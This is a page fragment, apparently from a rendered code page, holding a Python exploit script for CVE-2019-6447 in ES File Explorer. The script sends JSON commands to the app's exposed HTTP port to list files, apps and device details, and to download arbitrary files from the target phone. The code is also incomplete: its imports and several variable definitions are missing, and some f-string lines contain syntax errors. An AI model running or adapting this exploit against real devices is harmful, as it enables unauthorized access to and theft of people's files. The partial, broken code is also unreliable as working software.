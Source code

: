 ```python
print("|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |") 
print("|                Coded By : Nehal a.k.a PwnerSec                 |") 
print("==================================================================\n") 

header = { "Content-Type": "application/json" }
proxy = { "http": "http://127.0.0.1:8080", "https": "https://127.0.0.1:8080" }

def httpPost(cmd): 
	data = json.dumps({
    	"command": cmd
	}) 
	response = requests.post(url, headers = header, data = data) 
	return ast.literal_eval(response.text) 

def parse(text, keys): 
	for dic in text: 
		for key in keys: 
			print(f "{key} : {dic[key]}") 
		print('') 
		
def do_listing(cmd): 
	response = httpPost(cmd) 
	if len(response) == 0: 
		keys = []
	else:
		keys = list(response[0].keys()) 
		parse(response, keys) 
		
if cmd in listCmds: 
	do_listing(cmd) 
		
elif cmd == cmds[9]: 

	if len(sys.argv) != 4: 
		print("[+] Include file name to download.") 
		sys.exit(1) 
	elif sys.argv[3][0] != '/': 
		print("[-] You need to provide full path of the file.") 
		sys.exit(1)
	else :
		path = sys.argv[3] 
		print("[+] Downloading file...") 
		response = requests.get(url + path) 
		with open('out.dat', 'wb') as wf: 
			wf.write(response.content) 
		print("[+] Done. Saved as `out.dat`.") 

elif cmd == cmds[10]: 
	response = httpPost(cmd) 
	keys = list(response.keys()) 
	for key in keys: 
		print(f "{key} : {response[key]}")
```
{: file="exploits/50070.py"}
